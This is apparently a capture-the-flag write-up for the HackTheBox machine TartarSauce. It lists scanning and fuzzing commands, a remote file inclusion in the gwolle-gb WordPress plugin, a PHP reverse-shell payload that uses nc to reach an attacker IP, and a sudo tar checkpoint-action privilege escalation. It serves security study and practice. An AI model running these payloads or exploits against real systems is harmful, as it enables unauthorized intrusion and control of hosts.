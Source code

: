 # TartarSauce

# Scanning
furious 10.10.10.88
nmap -sC -sV -p 80 -Pn -n 10.10.10.88 -oN targeted 

![204058.png](204058.png)

# 80 

![200558.png](200558.png)

wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.88/webservices/FUZZ

![210625.png](210625.png)

![213524.png](213524.png)

## seclist fuzz plugins
wfuzz -c --hc 403,404 -t 100 -w /usr/share/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
![010742.png](010742.png)

searchsploit gwolle
searchsploit -x php/webapps/38861.txt

we are gonna use this:
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]

we create a file named like wp-load.php
```bash
<?php
	system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 4444 >/tmp/f');
?>
```

we run a python3 server, wait for a nc connection on 4444
and then we enter in 
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14

![023608.png](023608.png)
```bash
sudo -l

sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

systemctl list-timers
procmon.sh
pspy

![022554.png](022554.png)

![195158.png](195158.png)

